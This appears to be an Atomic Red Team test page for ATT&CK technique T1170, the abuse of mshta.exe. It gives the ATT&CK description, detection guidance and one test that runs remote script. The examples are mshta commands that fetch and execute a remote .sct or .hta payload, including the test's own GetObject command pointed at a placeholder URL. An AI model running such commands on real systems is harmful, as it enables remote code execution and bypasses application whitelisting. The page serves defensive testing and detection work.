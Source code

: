 # T1170 - Mshta
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1170)
<blockquote>Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: GitHub SubTee The List)

Detection: Use process monitoring to monitor the execution and arguments of mshta.exe. Look for mshta.exe executing raw or obfuscated script within the command-line. Compare recent invocations of mshta.exe with prior history of known good arguments and executed binaries to determine anomalous and potentially adversarial activity. Command arguments used before and after the mshta.exe invocation may also be useful in determining the origin and purpose of the binary being executed.

Monitor use of HTA files. If they are not typically used within an environment then execution of them may be suspicious.

Platforms: Windows

Data Sources: Process monitoring, Process command-line parameters

Defense Bypassed: Application whitelisting

Permissions Required: User

Remote Support: No

Contributors: Ricardo Dias, Ye Yint Min Thu Htut, Offensive Security Team, DBS Bank</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)


<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
Test execution of a remote script using mshta.exe

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://www.example.com/mshta.sct|

#### Run it with `command_prompt`!
```
mshta.exe javascript:a=GetObject("script:#{file_url}").Exec();close();
```
<br/>
